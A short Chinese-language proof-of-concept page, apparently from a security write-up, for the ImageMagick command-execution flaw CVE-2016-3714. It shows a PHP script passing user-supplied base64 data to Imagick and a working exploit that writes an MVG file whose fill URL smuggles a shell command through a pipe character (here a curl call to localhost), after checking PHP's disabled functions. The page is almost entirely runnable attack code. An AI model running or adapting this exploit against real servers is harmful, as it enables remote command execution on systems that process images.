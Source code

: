 
**poc.php内容**

```php
<?php
function readImageBlob() {
    $base64 = "iVBORw0KGgoAAAANSUhEUgAAAM0AAAD
 NCAMAAAAsYgRbAAAAGXRFWHRTb2Z0d2FyZQBBZG9iZSBJbWFnZVJlYWR5c
 cllPAAAABJQTFRF3NSmzMewPxIG//ncJEJsldTou1jHgAAAARBJREFUeNrs2EEK
 gCAQBVDLuv+V20dENbMY831wKz4Y/VHb/5RGQ0NDQ0NDQ0NDQ0NDQ0NDQ
 0NDQ0NDQ0NDQ0NDQ0NDQ0NDQ0PzMWtyaGhoaGhoaGhoaGhoaGhoxtb0QGho
 aGhoaGhoaGhoaGhoaMbRLEvv50VTQ9OTQ5OpyZ01GpM2g0bfmDQaL7S+ofFC6x
 v3ZpxJiywakzbvd9r3RWPS9I2+MWk0+kbf0Hih9Y17U0nTHibrDDQ0NDQ0NDQ0
 NDQ0NDQ0NTXbRSL/AK72o6GhoaGhoRlL8951vwsNDQ0NDQ1NDc0WyHtDTEhD
 Q0NDQ0NTS5MdGhoaGhoaGhoaGhoaGhoaGhoaGhoaGposzSHAAErMwwQ2HwRQ
 AAAAAElFTkSuQmCC";
    if(isset($_POST['img'])){
        $base64 = $_POST['img'];
    }
    $imageBlob = base64_decode($base64);

    $imagick = new Imagick();
    $imagick->readImageBlob($imageBlob);

    header("Content-Type: image/png");
    echo $imageBlob;
}
```
集成的 ImageMagick 命令执行漏洞（CVE-2016–3714）

```php
<?php
echo "Disable Functions: " . ini_get('disable_functions') . "n";

function AAAA(){
$command = 'curl 127.0.0.1:7777'; # 命令

$exploit = <<<EOF
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|$command")'
pop graphic-context
EOF;

file_put_contents("KKKK.mvg", $exploit);
$thumb = new Imagick();
$thumb->readImage('KKKK.mvg');
$thumb->writeImage('KKKK.png');
$thumb->clear();
$thumb->destroy();
unlink("KKKK.mvg");
unlink("KKKK.png");
}
AAAA();
?>
```
